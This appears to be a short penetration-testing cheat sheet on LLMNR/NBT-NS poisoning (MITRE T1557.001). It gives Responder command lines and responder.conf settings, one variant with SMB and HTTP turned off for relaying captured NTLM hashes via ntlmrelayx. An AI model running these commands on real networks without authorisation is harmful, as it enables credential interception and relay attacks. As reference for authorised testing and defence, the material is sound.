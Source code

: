 >> __https://attack.mitre.org/techniques/T1557/001/__

- __Poisoning__

- - __Don't poisoning all network__
- - __responder.conf__
- - __responder__
- - __ntlmrelayx__

>> Don't poisoning all network

- __Modify the responder settings to your liking and when using ntlmrelayx, define targets. Poisoning the entire network could cause a denial of service__


>> responder.conf / Default
```
Servers to start
SQL = On
SMB = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = On
HTTPS = On
DNS = On
LDAP = On
```

>> responder usage
```
responder -h #Help

responder -I interface -A

responder -I interface -wrf

responder -I interface -rdw

responder -I interface --lm #check help
```

>> responder __NTLM__ / __responder.conf__ / __ntlmrelayx__
```
Servers to start
SQL = On
SMB = Off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On
LDAP = On
```
